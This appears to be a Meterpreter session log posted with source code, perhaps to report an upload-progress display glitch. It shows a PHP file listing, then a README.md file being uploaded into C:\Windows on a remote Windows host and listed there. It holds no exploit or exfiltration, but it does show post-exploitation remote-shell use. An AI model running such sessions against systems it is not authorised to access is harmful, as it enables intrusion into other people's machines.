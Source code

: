 ```
100666/rw-rw-rw-  1453   fil   2016-09-21 15:10:40 -0500  objects.php
100666/rw-rw-rw-  1957   fil   2016-09-21 15:10:40 -0500  post.php
100666/rw-rw-rw-  1642   fil   2018-09-11 14:31:18 -0500  server_processing.php
100666/rw-rw-rw-  14438  fil   2016-09-30 01:53:10 -0500  ssp.class.php

meterpreter > cd "C:\\Windows\\"
meterpreter > pwd
C:\Windows
meterpreter > upload README.md
[*] uploading  : README.md -> README.md
[*] Uploaded -1.00 B of 2.67 KiB (-0.04%): README.md -> README.md
[*] uploaded   : README.md -> README.md
meterpreter > ls
Listing: C:\Windows
===================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
...
100666/rw-rw-rw-  34925     fil   2019-03-18 23:46:33 -0500  Professional.xml
40777/rwxrwxrwx   0         dir   2020-04-10 12:14:25 -0500  Provisioning
100666/rw-rw-rw-  2734      fil   2020-06-16 15:14:53 -0500  README.md
...

meterpreter > ls README.md
100666/rw-rw-rw-  2734  fil  2020-06-16 15:14:53 -0500  README.md
```

